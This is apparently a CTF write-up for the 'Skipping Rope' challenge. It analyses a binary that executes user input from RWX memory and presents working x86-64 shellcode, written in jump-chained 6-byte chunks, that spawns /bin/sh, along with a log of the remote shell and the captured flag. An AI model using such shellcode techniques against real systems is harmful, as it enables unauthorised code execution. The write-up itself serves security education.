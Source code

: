 # Skipping Rope

> How high and how fast can you go on the skipping rope?
>  
> nc ctf.pwn.sg 1501
>  
> Creator - amon (@nn_amon)


### Program analysis

The binary is not stripped, and has no PIE. As the assembly will later show, its vulnerability to stack smashing plays no role here as we can execute instructions in the executable `mmap` memory.
```
$ file skippingrope
skippingrope: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=38456d1c9186fddf7bdcacfd49058963a8f23815, not stripped
```
```
checksec skippingrope
[*] '/home/solomonbstoner/Desktop/CTF Guides/xctf 2018/skipping rope/skippingrope'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

Now let's take a look at the assembly of the program. `<main>` only calls `<skipping_rope>`. That is our function of interest.

![xctf_2018_skipping_rope_function_of_interest.png](../img/xctf_2018_skipping_rope_function_of_interest.png)


The function calls `mmap(0, 0x2000, 7, 0x22, 0xffffffff, 0)`. The argument `7` is a binary OR of `PROT_EXEC | PROT_READ | PROT_WRITE`, meaning the mapped memory is readable, writable and executable.

`mmap` returns the memory address of the mapped memory. In this case it returns `0x7ffff7ff5000`. `info proc mappings` show the mapped memory.
```
(gdb) p/x $rax
$1 = 0x7ffff7ff5000
(gdb) info proc mappings
process 8944
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      [...]
      0x7ffff7ff5000     0x7ffff7ff7000     0x2000        0x0 
      [...]
```

The screenshot below shows that the function reads user input into the first 6 bytes of every 16 bytes of the mapped memory. A total of 1536 bytes are read. 

![xctf_2018_skipping_rope_reading_into_memory.png](../img/xctf_2018_skipping_rope_reading_into_memory.png)


After reading user input, the function executes user input starting at the beginning of the mapped memory space.

![xctf_2018_skipping_rope_after_reading.png](../img/xctf_2018_skipping_rope_after_reading.png)

Given an input `"AAAAA....AAAA"`, this is how the mapped memory looks like.
```
(gdb) x/32wx $rdx
0x7ffff7ff5000:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5010:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5020:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5030:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5040:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5050:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5060:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5070:	0x41414141	0x00004141	0x00000000	0x00000000
(gdb) 
```
We received segfault soon after as `rip` was loaded with `0x4141414141414141`. Next stop was to find the appropriate instructions input so that upon execution, we'd get a shell.

### Successful exploit

Initially the plan was to use `read` to read over the remaining 10 bytes in the mapped memory that was not written earlier to make it easier to include a binsh shell. It did not work. `syscall` did not even call `read` at all. (Well... its returned value showed 0x0, which means the read should have been successful, but the memory it was supposed to read into showed no changes.

Then we thought to use `execve('sh', null, null)` to get the bash shell. (because `push 0x0068732f6e69622f` takes more than 6 bytes). `syscall` returned either -14 or -2, and no shell was executed.

Pushing values by bytes (e.g. `push 0x00; push 0x68; push 0x73;` etc) does not work as well. `RSP` decreases by QWORD for each `push`, so there are alot of null bytes in between the characters.

Lastly we realised we could `mov` the string `'/bin/sh'` into a register byte by byte before pushing the register's value into the stack. This is how we managed to call `execve('/bin/sh', null, null)` with assembly instructions less than 4 bytes. We cannot use all 6 bytes because the last 2 bytes are used for the `jmp` instruction to jump to the next 6 bytes. 
```
xor rax, rax
jmp #0xa


mov al, 0x68
mov ah, 0x00			# rax = 0x0000000000000068
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x2f
mov ah, 0x73			# rax = 0x000000000068732f
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x69
mov ah, 0x6e			# rax = 0x00000068732f6e69
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x2f
mov ah, 0x62			# rax = 0x0068732f6e69622f
jmp #0xa

push rax
mov rdi, rsp
jmp #0xa

xor rax, rax
jmp #0xa

mov ax, 0x3b
jmp #0xa

xor rsi, rsi
jmp #0xa

xor rdx, rdx
jmp #0xa

syscall
```

The whole Python script we created is in `soln_for_skipping_rope.py`. After running the script, we got a shell and the flag.
```
$ python2 soln_for_skipping_rope.py 
[+] Opening connection to ctf.pwn.sg on port 1501: Done
[*] Switching to interactive mode
$ whoami
skippingropeuser
$ find . -iname "flag"
find: './root': Permission denied
find: './var/lib/apt/lists/partial': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/rsyslog': Permission denied
find: './var/cache/ldconfig': Permission denied
find: './var/cache/apt/archives/partial': Permission denied
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
find: './proc/1/fd': Permission denied
find: './proc/1/map_files': Permission denied
find: './proc/1/fdinfo': Permission denied
find: './proc/1/ns': Permission denied
./home/skippingropeuser/flag
$ cat ./home/skippingropeuser/flag
CrossCTF{With_a_hip_hop_the_hippie_to_the_hippie}
```
